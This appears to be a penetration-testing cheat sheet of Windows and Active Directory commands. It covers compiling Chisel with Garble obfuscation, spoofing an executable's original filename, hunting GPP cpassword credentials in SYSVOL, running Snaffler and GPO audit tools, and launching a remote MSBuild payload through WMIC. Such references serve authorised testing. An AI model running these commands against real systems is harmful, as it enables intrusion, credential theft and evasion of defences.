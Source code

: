 ```
loginctl show-session <id#>
loginctl session-status <id#>
loginctl terminate-session <id#>
```
## Compile Go executable for Windows x64 using Garble
https://github.com/burrowers/garble
```
# By example, lets compile Chisel with Garble
env GOOS=windows GOARCH=amd64 /home/kali/go/bin/garble build github.com/jpillora/chisel
```
## Modify the "OriginalFileName" property of an EXE
https://github.com/electron/rcedit
```
rcedit-x64.exe cmd.exe --set-version-string OriginalFilename notcmd.exe
```
## GPP
```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
## GPO audit with Grouper2
Source : https://github.com/l0ss/Grouper2
```
grouper2.exe -g -i 8 -f grouper2_output.html [-d DOMAIN -u USERNAME -p PASSWORD]
```
## GPO audit with Group3r
Source : https://github.com/Group3r/Group3r
```
Group3r.exe -f C:\Users\User1\Desktop\Gpr.log -w -e -r
```
## Snaffler
Source : https://github.com/SnaffCon/Snaffler
```
Snaffler.exe -s -o snaf.log -d domain.local -c 10.10.100.1
```
## ADExplorer via CLI
```
ADExplorer64.exe -accepteula -snapshot "" <domain_snapshot.dat>
```
## AD Audit with PingCastle
```
PingCastle.exe --healthcheck --server domain.local
```
## WMIC Local/RCE
```
wmic process call create "cmd.exe /c calc.exe"
wmic /user:USERNAME /password:Password /node:"COMPUTER" process call create "c:\windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe PAYLOAD"
```
## WMIC List users from Group
```
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value
```
## wmic list softwares
```
```